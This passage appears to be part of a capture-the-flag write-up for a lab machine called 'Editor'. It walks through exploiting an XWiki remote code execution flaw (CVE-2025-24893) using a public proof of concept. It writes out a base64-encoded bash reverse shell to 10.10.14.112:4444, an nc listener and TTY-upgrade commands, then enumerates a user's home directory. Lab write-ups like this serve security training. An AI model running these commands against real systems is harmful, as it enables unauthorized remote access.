 ## 3. Exploitation

### XWiki RCE (CVE-2025-24893)

- Vulnerable version 15.10.8 identified. (https://www.offsec.com/blog/cve-2025-24893/) 
	
- PoC available at: [GitHub CVE-2025-24893 PoC](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py)



---
#### Reverse Shell Payload

- Encode reverse shell and insert it into the PoC:



```bash
echo -n 'bash -c '"'"'sh -i >& /dev/tcp/10.10.14.112/4444 0>&1'"'"'' | base64
# YmFzaCAtYyAn... (use in exploit)
```

- Replace exploit_url with the new payload:

![editor_5](https://gianlucabassani.github.io/assets/editor/htb_editor_5.png)



- Start listener:
    

```bash
nc -nvlp 4444
```



- Connection received as user `xwiki`.
    


#### Upgrade TTY

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo; fg
reset (if needed)
export TERM=xterm
```

```shell
xwiki@editor:/usr/lib/xwiki-jetty$ ls -lah /home
```

```shell
drwxr-x---  6 oliver oliver 4.0K Sep  5 14:44 oliver
```



- Identified user: `oliver`.
